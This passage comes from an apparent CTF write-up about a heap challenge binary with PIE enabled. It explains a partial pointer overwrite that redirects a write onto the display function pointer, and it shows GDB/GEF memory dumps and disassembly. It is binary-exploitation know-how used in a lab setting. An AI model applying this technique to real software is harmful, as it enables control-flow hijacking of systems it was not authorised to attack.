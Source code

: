 
This exploit presents a fairly obvious opportunity for an arbitrary write;
however, the presence of PIE as a defense means that I cannot, for instance,
simply overwrite a GOT entry with my win function, because I do not know where
the GOT is. As a result, I decided to look into a partial-overwrite strategy.
If I edit strings to chars and back again, that should only overwrite the
least-significant bit in my pointer. If I break on the create_variable
function in GDB/GEF, as called from an edit, I can see that, if I am not
overwriting anything, the string is read into a heap location as expected. In
one specific instance, it is getting read into the address 0x000055e909e09290.
If I then look at all the addresses with the same seven most significant
bytes, i.e. ones I could write to instead by overwriting the least significant
byte with a char, I see that the address for the print function pointer from
the struct definition, where the address for display_string is stored in this
case, is kept at 0x55e909e09270.  
```  
read@plt (  
  $rdi = 0x0000000000000000,  
  $rsi = 0x000055e909e09290 → "00000000000000000000",  
  $rdx = 0x0000000000000014  
)  
...  
gef➤  x/40gx 0x000055e909e09200  
0x55e909e09200: 0x0000000000000000      0x0000000000000000  
0x55e909e09210: 0x0000000000000000      0x0000000000000000  
0x55e909e09220: 0x0000000000000000      0x0000000000000000  
0x55e909e09230: 0x0000000000000000      0x0000000000000000  
0x55e909e09240: 0x0000000000000000      0x0000000000000000  
0x55e909e09250: 0x0000000000000000      0x0000000000000031  
0x55e909e09260: 0x0000001400000001      0x000055e909e09290  
0x55e909e09270: 0x000055e909de7226      0x0000000000000000  
0x55e909e09280: 0x0000000000000000      0x0000000000000021  
0x55e909e09290: 0x3030303030303030      0x3030303030303030  
0x55e909e092a0: 0x0000000030303030      0x0000000000020d61  
0x55e909e092b0: 0x0000000000000000      0x0000000000000000  
0x55e909e092c0: 0x0000000000000000      0x0000000000000000  
0x55e909e092d0: 0x0000000000000000      0x0000000000000000  
0x55e909e092e0: 0x0000000000000000      0x0000000000000000  
0x55e909e092f0: 0x0000000000000000      0x0000000000000000  
0x55e909e09300: 0x0000000000000000      0x0000000000000000  
0x55e909e09310: 0x0000000000000000      0x0000000000000000  
0x55e909e09320: 0x0000000000000000      0x0000000000000000  
0x55e909e09330: 0x0000000000000000      0x0000000000000000  
gef➤  x/i 0x000055e909de7226  
  0x55e909de7226 <display_string>:      push   rbp  
```  
If I also look at the display function, I can see that the display_string
function is called because it is the function pointed to at this heap address;
the contents of rax+10 are that heap address, those contents are loaded into
rdx, and rdx is called.  
```  
→ 0x55e909de7653 <display+32>     mov    rdx, QWORD PTR [rax+0x10]  
  0x55e909de7657 <display+36>     mov    rax, QWORD PTR [rbp-0x8]  
  0x55e909de765b <display+40>     mov    rdi, rax  
  0x55e909de765e <display+43>     mov    eax, 0x0  
  0x55e909de7663 <display+48>     call   rdx  
  0x55e909de7665 <display+50>     add    DWORD PTR [rbp-0xc], 0x1  
─────────────────────────────────────────────────────────────────── threads
────  
[#0] Id 1, Name: "chall_patched", stopped 0x55e909de7653 in display (),
reason: SINGLE STEP  
───────────────────────────────────────────────────────────────────── trace
────  
[#0] 0x55e909de7653 → display()  
[#1] 0x55e909de7769 → main()  
```